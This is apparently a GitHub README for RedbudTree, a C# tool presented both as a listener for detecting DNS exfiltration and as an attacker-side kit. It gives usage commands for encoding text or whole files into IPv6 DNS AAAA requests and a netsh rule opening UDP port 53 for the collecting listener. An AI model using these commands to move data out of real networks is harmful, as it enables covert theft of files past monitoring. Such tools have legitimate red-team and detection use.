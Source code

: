 # RedbudTree
![](https://github.com/DamonMohammadbagher/RedbudTree/blob/master/Pic.jpg)
DNS IPv6 Request Listener (UDP Port 53) for Detecting Exfiltration DATA via IPv6 DNS AAAA Record Requests.

Video (step by step) : https://www.youtube.com/watch?v=9jiry5b-oPo

bsdmag.org PDF Download , PDF File BSD-Magazine issue (2/2018)

For Reading Full Article Please visit this link (Download - Free) : https://bsdmag.org/download/table-level-security-postgresql/

Github PDF Download , PDF File BSD-Magazine issue (2/2018)

For Reading Full Article Please visit this link (Download - Free) : https://github.com/DamonMohammadbagher/Exfiltration-and-Uploading-DATA-by-DNS-Traffic-AAAA-Records-

step 1:         
/// for using "Listening Mode" UDP Port 53 should be opened before using this tool.         
/// windows command for opening UDP port 53 is :  
/// netsh advfirewall firewall add rule name="UDP 53" dir=in action=allow protocol=UDP localport=53

Note: step "1" is for attacker side

step 2:         
/// Compiling C# Code.         
/// windows command for this is :  
/// csc.exe /out:RedbudTree.exe  RedbudTree.cs 


step 3:         
/// RedbudTree.exe Help         
/// windows command for this is :  

/// Syntax 1: Creating Exfiltration DATA via IPv6 Address and Nslookup.         
/// Syntax 1: RedbudTree.exe "AAAA" "Text"  
/// Example1: RedbudTree.exe AAAA "this is my test" 

/// Syntax 2: Creating Exfiltration DATA via IPv6 Address and Nslookup by Text Files.  (redbudtree_2.png)        
/// Syntax 2: RedbudTree.exe "AAAA" "FILE" "TextFile.txt"  
/// Example2: RedbudTree.exe AAAA FILE "TextFile.txt" 

/// Syntax 3: RedbudTree with Listening Mode          
/// Syntax 3: RedbudTree.exe  
Note: syntax 3 is ((Dumping DATA via IPv6 Requests , attacker side)) (redbudtree_3.png)


